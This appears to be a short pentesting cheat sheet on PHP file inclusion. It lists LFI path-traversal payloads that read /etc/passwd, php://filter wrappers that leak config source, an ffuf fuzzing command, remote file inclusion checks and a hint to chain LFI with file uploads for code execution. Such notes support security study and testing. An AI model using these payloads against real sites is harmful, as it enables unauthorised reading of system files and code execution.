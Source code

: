 




#  File Inclusions


check for commons   Local File Inclusion (LFI)     

/index.php?language=es.php
/index.php?language=/etc/passwd
/index.php?language=../../../../etc/passwd

**Note:** For this to work we must URL encode all characters, including the dots. Some URL encoders may not encode dots as they are considered to be part of the URL scheme.

# PHP Filters


check for  php filters
```shell-session
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://<SERVER_IP>:<PORT>/FUZZ.php
```

/index.php?language=config
/index.php?language=php://filter/read=convert.base64-encode/resource=config

# PHP Wrappers

- [ ] Check for PHP wrappers 


```shell-session
php://filter/read=convert.base64-encode/resource=../../../../etc/passwd
```


# Remote File Inclusion (RFI)

Check for RFI by including the local url  like 
>/index.php?language=http://127.0.0.1:80/index.php

> [!NOTE]
> **Note:** It may not be ideal to include the vulnerable page itself (i.e. index.php), as this may cause a recursive inclusion loop and cause a DoS to the back-end server.

use the burp-colaborator url for identifying the possible for RCE 

# LFI and File Uploads

- [ ] if could not  find a way to execute the file right away with file upload, look for somewhere where you can execute a LFI to execute that file 
